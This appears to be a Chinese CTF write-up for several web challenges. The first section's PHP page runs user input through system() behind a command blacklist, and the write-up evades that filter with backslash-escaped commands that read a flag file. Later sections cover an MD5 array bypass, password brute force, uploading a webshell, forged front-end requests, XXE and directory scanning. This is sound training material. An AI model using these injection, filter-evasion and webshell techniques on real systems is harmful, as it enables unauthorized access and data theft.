








# 狗黑子的RCE

## #RCE的绕过

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
header('content-type:text/html;charset=utf-8');


    $gouheizi1=$_GET['gouheizi1'];
    $gouheizi2=$_POST['gouheizi2'];
    $gouheizi2=str_replace('gouheizi', '', $gouheizi2);

    if (preg_match("/ls|dir|flag|type|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $gouheizi1)) {
        echo("badly!");
        exit;
    } 
    if($gouheizi2==="gouheizi"){
        system($gouheizi1);
    }else{
        echo "gouheizi!";
    }
?>
gouheizi!

```

会将$gouheizi2中的gouheizi替换成空，我们用双写绕过，至于里面的命令过滤，可以用反斜杠去绕过

```http
?gouheizi1=l\s /
gouheizi2=gougouheiziheizi

?gouheizi1=ca\t /fla\g.php
gouheizi2=gougouheiziheizi
```

# 简单的导航站

## #md5绕过+越权+爆破

上传文件的口子需要管理员登录，并且提示管理员不一定是admin

注册后登录，有一个查看用户列表

```php
<?php
header("Content-Type:text/html;charset=utf-8");
show_source(__FILE__);
include('user.php');

$user1 = $_GET['user1'];
$user2 = $_GET['user2'];

if ($user1 != $user2) {
    if (md5($user1) === md5($user2)) {
        echo '用户名：' . $user;
    } else {
        echo 'MD5值校验出错啦啦啦......';
    }
} else {
    echo 'user不能相等！';
}
?>
user不能相等！
```

md5的强比较，直接用数组绕过就行

```http
/audit.php?user1[]=1&user2[]=2
```

然后拿到了用户名列表

在主页源代码发现有一个`Admin1234`，估计是密码需要爆破吧

爆了几次没爆出来，后面才发现密码漏了个感叹号.....



登录后打文件上传，一点限制都没有，没回显路径，猜测了一波路径是`/uploads/`



上传马子后蚁剑连接，但是flag有很多，直接拿去刚刚的认证爆破就行了



# button

## #前端js

点不到的按钮，看看前端的js文件怎么写的

```javascript
const button = document.getElementById('myButton');
const flagDiv = document.getElementById('flag');

const viewportWidth = window.innerWidth;
const viewportHeight = window.innerHeight;


const buttonWidth = button.offsetWidth;
const buttonHeight = button.offsetHeight;


let clickCount = 0;


button.addEventListener('mouseover', function() {

    const randomX = Math.random() * (viewportWidth - buttonWidth) - (viewportWidth / 2);
    const randomY = Math.random() * (viewportHeight - buttonHeight) - (viewportHeight / 2);


    button.style.transform = `translate(${randomX}px, ${randomY}px)`;  
});

function handleClick() {

    clickCount++;


    if (clickCount === 999999999999999999999999999999999999999999999999999999999999999999) {
    const xhr = new XMLHttpRequest();
    xhr.open('GET', '/proxy.php?file=flag', true);
    xhr.onreadystatechange = function() {
        if (xhr.readyState == 4 && xhr.status == 200) {
            alert(xhr.responseText);
        }
    };
    xhr.send();
}


    const xhr = new XMLHttpRequest();
    xhr.open('GET', 'getFlag.php', true);
    xhr.onreadystatechange = function() {
        if (xhr.readyState == 4 && xhr.status == 200) {
            flagDiv.innerHTML = xhr.responseText;
        }
    };
    xhr.send();
}

button.addEventListener('click', handleClick);

document.addEventListener('keydown', function(event) {

    if (event.key === 'Tab') {
        event.preventDefault();

    }

    if (event.ctrlKey) {
        // Ctrl + C, Ctrl + V, Ctrl + X, Ctrl + A
        if (event.key === 'c' || event.key === 'v' || event.key === 'x' || event.key === 'a') {
            event.preventDefault();

        }
    }

    if (event.key === 'F5' || event.key === 'F12' || event.key === 'F11') {
        event.preventDefault();

    }
});
```

给具体的get请求了`/proxy.php?file=flag`，直接构造请求就行了

# 井字棋

## #前端js

还是一样，这种前端的直接看js

```javascript
<script>
let origBoard;
let huPlayer = 'O';
let aiPlayer = 'X';
const winCombos = [
    [0, 1, 2],
    [3, 4, 5],
    [6, 7, 8],
    [0, 4, 8],
    [6, 4, 2],
    [2, 5, 8],
    [1, 4, 7],
    [0, 3, 6]
];

const cells = document.querySelectorAll('.cell');
startGame();

function selectSym(sym) {
    huPlayer = sym;
    aiPlayer = sym === 'O' ? 'X' : 'O';
    origBoard = Array.from(Array(9).keys());
    for (let i = 0; i < cells.length; i++) {
        cells[i].addEventListener('click', turnClick, false);
    }
    if (aiPlayer === 'X') {
        turn(bestSpot(), aiPlayer);
    }
    document.querySelector('.selectSym').style.display = "none";
}

function startGame() {
    document.querySelector('.endgame').style.display = "none";
    document.querySelector('.endgame .text').innerText = "";
    document.querySelector('.selectSym').style.display = "block";
    for (let i = 0; i < cells.length; i++) {
        cells[i].innerText = '';
        cells[i].style.removeProperty('background-color');
    }
}

function turnClick(square) {
    if (typeof origBoard[square.target.id] === 'number') {
        turn(square.target.id, huPlayer);
        if (!checkWin(origBoard, huPlayer) && !checkTie())
            turn(bestSpot(), aiPlayer);
    }
}

function turn(squareId, player) {
    origBoard[squareId] = player;
    document.getElementById(squareId).innerHTML = player;
    let gameWon = checkWin(origBoard, player);
    if (gameWon) gameOver(gameWon);
    checkTie();
}

function checkWin(board, player) {
    let plays = board.reduce((a, e, i) => (e === player) ? a.concat(i) : a, []);
    let gameWon = null;
    for (let [index, win] of winCombos.entries()) {
        if (win.every(elem => plays.indexOf(elem) > -1)) {
            gameWon = {
                index: index,
                player: player
            };
            break;
        }
    }
    return gameWon;
}

function gameOver(gameWon) {
    for (let index of winCombos[gameWon.index]) {
        document.getElementById(index).style.backgroundColor =
            gameWon.player === huPlayer ? "#0099ff" : "#f4001f";
    }
    for (let i = 0; i < cells.length; i++) {
        cells[i].removeEventListener('click', turnClick, false);
    }
    declareWinner(gameWon.player === huPlayer ? "您赢了！" : "您输了.");
}

function declareWinner(who) {
    document.querySelector(".endgame").style.display = "block";
    document.querySelector(".endgame .text").innerText = who;

    // 确定获胜状态并发送到后端
    const winner = who === "您赢了！" ? "player" : "ai";

    // AJAX 请求后端
    fetch("game.php", {
        method: "POST",
        headers: {
            "Content-Type": "application/json"
        },
        body: JSON.stringify({ winner: winner })
    })
    .then(response => response.json())
    .then(data => {
        if (data.flag) {
            // 弹出 Flag
            alert("Flag: " + data.flag);
        } else if (data.message) {
            // 显示提示
            alert(data.message);
        }
    })
    .catch(error => {
        console.error("Error:", error);
    });
}


function emptySquares() {
    return origBoard.filter((elm, i) => i === elm);
}

function bestSpot() {
    return minimax(origBoard, aiPlayer).index;
}

function checkTie() {
    if (emptySquares().length === 0) {
        for (cell of cells) {
            cell.style.backgroundColor = "green";
            cell.removeEventListener('click', turnClick, false);
        }
        declareWinner("平局");
        return true;
    }
    return false;
}

function minimax(newBoard, player) {
    var availSpots = emptySquares(newBoard);

    if (checkWin(newBoard, huPlayer)) {
        return {
            score: -10
        };
    } else if (checkWin(newBoard, aiPlayer)) {
        return {
            score: 10
        };
    } else if (availSpots.length === 0) {
        return {
            score: 0
        };
    }

    var moves = [];
    for (let i = 0; i < availSpots.length; i++) {
        var move = {};
        move.index = newBoard[availSpots[i]];
        newBoard[availSpots[i]] = player;

        if (player === aiPlayer)
            move.score = minimax(newBoard, huPlayer).score;
        else
            move.score = minimax(newBoard, aiPlayer).score;
        newBoard[availSpots[i]] = move.index;
        if ((player === aiPlayer && move.score === 10) || (player === huPlayer && move.score === -10))
            return move;
        else
            moves.push(move);
    }

    let bestMove, bestScore;
    if (player === aiPlayer) {
        bestScore = -1000;
        for (let i = 0; i < moves.length; i++) {
            if (moves[i].score > bestScore) {
                bestScore = moves[i].score;
                bestMove = i;
            }
        }
    } else {
        bestScore = 1000;
        for (let i = 0; i < moves.length; i++) {
            if (moves[i].score < bestScore) {
                bestScore = moves[i].score;
                bestMove = i;
            }
        }
    }

    return moves[bestMove];
}
</script>
```

找到flag的前置条件，直接按要求发送请求就行了

```http
// 确定获胜状态并发送到后端
    const winner = who === "您赢了！" ? "player" : "ai";
// AJAX 请求后端
    fetch("game.php", {
        method: "POST",
        headers: {
            "Content-Type": "application/json"
        },
        body: JSON.stringify({ winner: winner })
    })
```

那就发呗，请求路径是game.php，请求体是json格式的winner键值对



# xxmmll

## #XXE

源码有一段注释代码

```http
<!--牢猫的网站使用 PHP 作为服务器端编程语言，是http响应头-->
```

用dirsearch扫一下目录

```bash
[12:01:21] Scanning:
[12:01:29] 200 -   469B - /Dockerfile
[12:01:29] 200 -   654B - /docker-compose.yml
[12:01:29] 200 -    11B - /flag.txt
[12:01:30] 200 -   417B - /index.php
[12:01:30] 200 -   417B - /index.php/login/
[12:01:34] 403 -   342B - /server-status/
[12:01:34] 403 -   341B - /server-status
```

有一个非预期解，flag在docker文件里面



然后我们看看预期解，上面提示响应头



访问一下是一个提交页面



随便传进去出现xml解析错误，那就打xxe就行了

后面发现随便传一个xml就可以通过验证了

# Note



dirsearch扫目录

```bash
[12:08:53] Scanning:
[12:09:01] 200 -    1KB - /debug.log
[12:09:01] 200 -   774B - /Dockerfile
[12:09:01] 200 -   180B - /docker-compose.yml
[12:09:02] 200 -    39B - /flag.txt
[12:09:03] 200 -   352B - /index.php
[12:09:03] 200 -   352B - /index.php/login/
[12:09:04] 200 -     0B - /logs.txt
[12:09:07] 403 -   341B - /server-status
[12:09:07] 403 -   342B - /server-status/
```

直接访问flag.txt就出来了
